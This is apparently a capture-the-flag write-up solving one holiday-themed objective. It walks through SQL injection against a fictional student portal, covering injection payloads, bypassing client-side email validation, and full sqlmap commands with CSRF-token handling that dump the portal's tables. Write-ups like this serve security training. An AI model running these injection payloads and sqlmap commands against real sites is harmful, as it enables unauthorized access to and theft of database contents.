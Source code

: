 # 9) Retrieve Scraps of Paper from Server

## Prompt

## Secondary Prompt from Krampus (learned this after solving haha)
You did it! Thank you so much. I can trust you!
To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
As for those scraps of paper, I scanned those and put the images on my server.
I then threw the paper away.
Unfortunately, I managed to lock out my account on the server.
Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
I give you permission to hack into it, solving Objective 9 in your badge.
And, as long as you're traveling around, be sure to solve any other challenges you happen across.
## Solve Process
This one sends us to a website... which probably has an injection vuln.
Let's see!
1. Check application status sounds odd, let's focus on that field.
1. Let's try "a@a.com" -> application status is pending (good, someone already registered for us haha 😉)
1. Let's try:
    ```SQL
    a@a.com' OR 1=1;-- -
    ```
    and we get an error message that the email field can't contain ' in it.
    Hmm, let's check the validation script... rabbit hole, it's a simple post html page.
    So... let's change the html (cause I'm lazy and just want to fingerprint) to be a text post instead of an email post so the browser doesn't validate it for us:
    ```html
    <input name="elfmail" type="email" id="inputEmail" class="form-control form-control-lg" placeholder="Email address" required="" autofocus="">
    ```
    becomes
    ```html
    <input name="elfmail" type="text" id="inputEmail" class="form-control form-control-lg" placeholder="Email address" required="" autofocus="">
    ```
1. Now let's try inputting "a@a.com' OR 1=1;-- -"

    Result: no error (good!)

1. Now let's try inputting "'OR 1=1;-- -'

    Result: no error (good!)
1. Now let's fingerprint. http://www.sqlinjection.net/database-fingerprinting/ has some good tips, let's try:
    ```SQL
    a' '@a.com
    ```
    and we get an error message! Bingo!
    ```
    Error: SELECT status FROM applications WHERE elfmail = ''a' '@a.com'';
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a' '@a.com''' at line 1
    ```
    This is good as we're not flying blind here now. We've now identified the SQL version used (MariaDB) as well as the table name "status" and column name "applications" and variable name "elfmail" which is pretty significant. Now we can throw it into SQL map and dump the database :D
    ```SQL
    ' OR 1=1 UNION ALL (SELECT * FROM applications) LIMIT 10;-- -
    ```
    error:
    ```
    Error: SELECT status FROM applications WHERE elfmail = '' OR 1=1 UNION ALL (SELECT * FROM applications) LIMIT 10;-- -';
    The used SELECT statements have a different number of columns
    ```
    ... trying SQLMap, we see that
    ```powershell
    python sqlmap.py -u https://studentportal.elfu.org/application-check.php --data='a@a.com' --csrf-url='https://studentportal.elfu.org/check.php' --csrf-token='token'
    ```
    doesn't work, because we see that the html calls:
    ```javascript
    function submitApplication() {
      console.log("Submitting");
      elfSign();
      document.getElementById("check").submit();
    }
    function elfSign() {
      var s = document.getElementById("token");

      const Http = new XMLHttpRequest();
      const url='/validator.php';
      Http.open("GET", url, false);
      Http.send(null);

      if (Http.status === 200) {
        console.log(Http.responseText);
        s.value = Http.responseText;
      }

    }
    ```
    first!
    Let's modify the csrf validation portion of SQLMap cause that will tie in nicely with the script and we won't have to change much else. The CSRF should instead download the validator.php page and spit it out as the variable. That should be pretty simple.
    Doing some OSINT we find that https://github.com/sqlmapproject/sqlmap/commit/780dbd1c64690726eed291e77f9a2fc12d230610 implements the CSRF check, so we can search the repo for conf.csrfToken and find that it gets set in https://github.com/sqlmapproject/sqlmap/blob/7dae324ed6ca4b7a49c4f6d3a9d0c83925a87614/lib/request/connect.py
    Let's modify the code to do a post to grab the validator.php page first and then convert it to a csrf token.

    to be ... AND STOP future me is coming to tell something that I learned painfully.
    Always check if the request is GET or POST. In this case it was GET. I assumed POST. Thankfully, with verbosity = 6, we found it out, but it took wayyyy too long.

    Now that we've modified the code SQLMap is happily running with the following command:
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still'
    ```
    whew that took far too long to correct. :D
    That query is taking some time, even after it found a viable exploit, so let's skip ahead and run:
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dbs
    # lists elfu and information_schema
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --tables -D elfu
    # lists krampus, applications, and students
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dump -D elfu -T krampus
    # dumps 6 picture URLs:
    1,/krampus/0f5f510e.png
    2,/krampus/1cc7e121.png
    3,/krampus/439f15e6.png
    4,/krampus/667d6896.png
    5,/krampus/adb798ca.png
    6,/krampus/ba417715.png
    ```
1. Piecing together the images, we find the message contains:
    ```
    From the Desk of <unreadable>

    Date: August 23, 20<unreadable>

    Memo to Self:

    Finally! I've figured out how to destroy Christmas!
    Santa has a brand new, cutting edge sleigh guidance
    technology, called the Super Sled-o-matic.

    I've figured out a way to poison the data going into the
    system so that it will divert Santa's sled on Christmas
    Eve!

    Santa will be unable to make the trip and the holiday
    season will be destroyed! Santa's own technology will
    undermine him!

    That's what they deserve for not listening to my
    suggestions for supporting other holiday characters!

    Bwahahahahaha!
    ```
1. This gives us the answer, "Super Sled-o-matic"
  Bonus:
  Let's dump the student database (the application database will probably be huge, but the student database might have something useful):
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dump -D elfu -T students
    ```
    Result:
    ```csv
    id,bio,name,degree,student_number
    1,My goal is to be a happy elf!,Elfie,Raindeer Husbandry,392363902026
    2,"I'm just a elf. Yes, I'm only a elf. And I'm sitting here on Santa's sleigh, it's a long, long journey To the christmas tree. It's a long, long wait while I'm tinkering in the factory. But I know I'll be making kids smile on the holiday... At least I hope and pray that I will But today. I'm still ju",Elferson,Dreamineering,39210852026
    3,Have you seen my list??? It is pretty high tech!,Alabaster Snowball,Geospatial Intelligence,392363902026
    4,I am an engineer and the inventor of Santa's magic toy-making machine.,Bushy Evergreen,Composites and Engineering,392363902026
    5,My goal is to be a happy elf!,Wunorse Openslae,Toy Design,39236372526
    6,My goal is to be a happy elf!,Bushy Evergreen,Present Wrapping,392363128026
    7,Check out my makeshift armour made of kitchen pots and pans!!!,Pepper Minstix,Reindeer Husbandry,392363902026
    8,My goal is to be a happy elf!,Sugarplum Mary,Present Wrapping,5682168522137
    9,Santa and I are besties for life!!!,Shinny Upatree,Holiday Cheer,228755779218
    ```
    Not useful after all, but maybe the student number will be useful later. :(
1. Now that we've solved 8, Krampus now gives us another prompt:
    ```
    Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.
    We’ve gotta stop whomever is behind it!
    I managed to find this protected document on one of the compromised machines in our environment.
    I think our attacker was in the process of exfiltrating it.
    I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?
    There are some smart people in the NetWars challenge room who may be able to help us.
    ```